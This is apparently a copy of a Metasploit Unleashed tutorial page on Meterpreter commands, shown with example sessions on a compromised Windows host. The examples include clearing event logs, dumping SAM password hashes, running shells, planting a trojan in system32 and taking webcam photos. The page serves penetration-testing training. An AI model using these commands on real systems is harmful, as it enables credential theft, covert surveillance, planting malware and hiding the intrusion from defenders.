



# 1 - Introduction

Since the Meterpreter provides a whole new environment, we will cover some of the basic Meterpreter commands to get you started and help familiarize you with this most powerful tool. Throughout this course, almost every available Meterpreter command is covered. For those that aren’t covered, experimentation is the key to successful learning.

# 2 - help

The help command, as may be expected, displays the Meterpreter help menu.

```
meterpreter > help
```

```
Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    background    Backgrounds the current session
    channel       Displays information about active channels
...snip...
```

# 3 - background

The background command will send the current Meterpreter session to the background and return you to the ‘msf’ prompt. To get back to your Meterpreter session, just interact with it again.

```
meterpreter > background
```

```
msf exploit(ms08_067_netapi) > sessions -i 1
[*] Starting interaction with 1...
```

```
meterpreter >
```

# 4 - cat

The cat command is identical to the command found on *nix systems. It displays the content of a file when it’s given as an argument.

```
meterpreter > cat

Usage: cat file

Example usage:
meterpreter > cat edit.txt
What you talkin' about Willis
```

```
meterpreter >
```

# 5 - cd and pwd

The cd and pwd commands are used to change and display current working directly on the target host. The change directory “cd” works the same way as it does under DOS and *nix systems. By default, the current working folder is where the connection to your listener was initiated.

ARGUMENTS:

`cd`:	Path of the folder to change to
`pwd`:	None required


Example usuage:

```
meterpreter > pwd
c:\
```

```
meterpreter > cd c:\windows
```

```
meterpreter > pwd
c:\windows
```

```
meterpreter >
```

# 6 - clearev

The clearev command will clear the Application, System, and Security logs on a Windows system. There are no options or arguments.

Before using Meterpreter to clear the logs | Metasploit Unleashed

Example usage: Before

```
meterpreter > clearev

[*] Wiping 97 records from Application...
[*] Wiping 415 records from System...
[*] Wiping 0 records from Security...
```

```
meterpreter >
```
After using Meterpreter to clear the logs | Metasploit Unleashed

After





# 9 - download

The download command downloads a file from the remote machine. Note the use of the double-slashes when giving the Windows path.

```
meterpreter > download c:\\boot.ini

[*] downloading: c:\boot.ini -> c:\boot.ini
[*] downloaded : c:\boot.ini -> c:\boot.ini/boot.ini

meterpreter >
```

# 10 - edit

The edit command opens a file located on the target host. It uses the ‘vim’ so all the editor’s commands are available.

Example usage:

```
meterpreter > ls

Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
.
...snip...
.
100666/rw-rw-rw-  0       fil   2012-03-01 13:47:10 -0500  edit.txt

meterpreter > edit edit.txt
```

Please refer to the vim editor documentation for more advance use. `http://www.vim.org/`

# 11 - execute

The execute command runs a command on the target.

```
meterpreter > execute -f cmd.exe -i -H

Process 38320 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

# 12 - getuid

Running getuid will display the user that the Meterpreter server is running as on the host.

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM

meterpreter >
```

# 13 - hashdump

The hashdump post module will dump the contents of the SAM database.

```
meterpreter > run post/windows/gather/hashdump

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...

Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
dook:1004:81cbcef8a9af93bbaad3b435b51404ee:231cbdae13ed5abd30ac94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9cac9c4683494017a0f5cad22110dbdc:31dcf7f8f9a6b5f69b9fd01502e6261e:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:36547c5a8a3de7d422a026e51097ccc9:::
victim:1003:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::

meterpreter >
```

# 14 - idletime

Running idletime will display the number of seconds that the user at the remote machine has been idle.

```
meterpreter > idletime

User has been idle for: 5 hours 26 mins 35 secs

meterpreter >
```

# 15 - ipconfig

The ipconfig command displays the network interfaces and addresses on the remote machine.

```
meterpreter > ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0

AMD PCNET Family PCI Ethernet Adapter - Packet Scheduler Miniport
Hardware MAC: 00:0c:29:10:f5:15
IP Address  : 192.168.1.104
Netmask     : 255.255.0.0

meterpreter >
```

# 16 - lpwd and lcd

The lpwd and lcd commands are used to display and change the local working directory respectively. When receiving a Meterpreter shell, the local working directory is the location where one started the Metasploit console. Changing the working directory will give your Meterpreter session access to files located in this folder.

ARGUMENTS:

lpwd:		None required
lcd:		Destination folder


Example usage:

```
meterpreter > lpwd
/root

meterpreter > lcd MSFU

meterpreter > lpwd
/root/MSFU

meterpreter > lcd /var/www

meterpreter > lpwd
/var/www

meterpreter >
```

# 17 - ls

As in Linux, the ls command will list the files in the current remote directory.

```
meterpreter > ls

Listing: C:\Documents and Settings\victim
=========================================

Mode              Size     Type  Last modified                   Name
----              ----     ----  -------------                   ----
40777/rwxrwxrwx   0        dir   Sat Oct 17 07:40:45 -0600 2009  .
40777/rwxrwxrwx   0        dir   Fri Jun 19 13:30:00 -0600 2009  ..
100666/rw-rw-rw-  218      fil   Sat Oct 03 14:45:54 -0600 2009  .recently-used.xbel
40555/r-xr-xr-x   0        dir   Wed Nov 04 19:44:05 -0700 2009  Application Data
...snip...
```

# 18 - migrate

Using the migrate post module, you can migrate to another process on the victim.

```
meterpreter > run post/windows/manage/migrate

[*] Running module against V-MAC-XP
[*] Current server process: svchost.exe (1076)
[*] Migrating to explorer.exe...
[*] Migrating into process ID 816
[*] New server process: Explorer.EXE (816)

meterpreter >
```

# 19 - ps

The ps command displays a list of running processes on the target.

```
meterpreter > ps

Process list
============

    PID   Name                  Path
    ---   ----                  ----
    132   VMwareUser.exe        C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    152   VMwareTray.exe        C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    288   snmp.exe              C:\WINDOWS\System32\snmp.exe
...snip...
```

# 20 - resource

The resource command will execute Meterpreter instructions located inside a text file. Containing one entry per line, resource will execute each line in sequence. This can help automate repetitive actions performed by a user.

By default, the commands will run in the current working directory (on target machine) and resource file in the local working directory (the attacking machine).

```
meterpreter > resource
Usage: resource path1 path2Run the commands stored in the supplied files.
```

```
meterpreter >
```

ARGUMENTS:

`path1`:		The location of the file containing the commands to run.

`Path2Run`:	The location where to run the commands found inside the file


Example usage Our file used by resource:
```
root@kali:~# cat resource.txt
ls
background
```

```
root@kali:~#
```

Running resource command:
```
meterpreter> > resource resource.txt
[*] Reading /root/resource.txt
[*] Running ls

Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2012-02-29 16:41:29 -0500  .
40777/rwxrwxrwx   0       dir   2012-02-02 12:24:40 -0500  ..
100666/rw-rw-rw-  606     fil   2012-02-15 17:37:48 -0500  IDA Pro Free.lnk
100777/rwxrwxrwx  681984  fil   2012-02-02 15:09:18 -0500  Sc303.exe
100666/rw-rw-rw-  608     fil   2012-02-28 19:18:34 -0500  Shortcut to Ability Server.lnk
100666/rw-rw-rw-  522     fil   2012-02-02 12:33:38 -0500  XAMPP Control Panel.lnk

[*] Running background

[*] Backgrounding session 1...
msf  exploit(handler) >
```

# 21 - search

The search commands provides a way of locating specific files on the target host. The command is capable of searching through the whole system or specific folders. Wildcards can also be used when creating the file pattern to search for.

```
meterpreter > search
[-] You must specify a valid file glob to search for, e.g. >search -f *.doc
```

ARGUMENTS:

File pattern:	 	May contain wildcards
Search location:	Optional, if none is given the whole system will be searched.


Example usage:

```
meterpreter > search -f autoexec.bat
Found 1 result...
    c:\AUTOEXEC.BAT

meterpreter > search -f sea*.bat c:\\xamp\\
Found 1 result...
    c:\\xampp\perl\bin\search.bat (57035 bytes)

meterpreter >
```

# 22 - shell

The shell command will present you with a standard shell on the target system.

```
meterpreter > shell

Process 39640 created.
Channel 2 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

# 23 - upload

As with the download command, you need to use double-slashes with the upload command.

```
meterpreter > upload evil_trojan.exe c:\\windows\\system32

[*] uploading  : evil_trojan.exe -> c:\windows\system32
[*] uploaded   : evil_trojan.exe -> c:\windows\system32\evil_trojan.exe

meterpreter >
```

# 24 - webcam_list

The webcam_list command when run from the Meterpreter shell, will display currently available web cams on the target host.

Example usage:

```
meterpreter > webcam_list
1: Creative WebCam NX Pro
2: Creative WebCam NX Pro (VFW)

meterpreter >
```

# 25 - webcam_snap

The webcam_snap’ command grabs a picture from a connected web cam on the target system, and saves it to disc as a JPEG image. By default, the save location is the local current working directory with a randomized filename.

```
meterpreter > webcam_snap -h

Usage: webcam_snap [options]
Grab a frame from the specified webcam.

OPTIONS:

    -h      Help Banner
    -i   The index of the webcam to use (Default: 1)
    -p   The JPEG image path (Default: 'gnFjTnzi.jpeg')
    -q   The JPEG image quality (Default: '50')
    -v   Automatically view the JPEG image (Default: 'true')

meterpreter >


OPTIONS:

-h:	Displays the help information for the command

-i opt:	If more then 1 web cam is connected, use this option to select the device to capture the
        image from

-p opt:	Change path and filename of the image to be saved

-q opt:	The imagine quality, 50 being the default/medium setting, 100 being best quality

-v opt:	By default the value is true, which opens the image after capture.
```

Example usage:

```
meterpreter > webcam_snap -i 1 -v false

[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/Offsec/YxdhwpeQ.jpeg

meterpreter >
```

Using webcam_snap Meterpreter plugin | Metasploit Unleashed

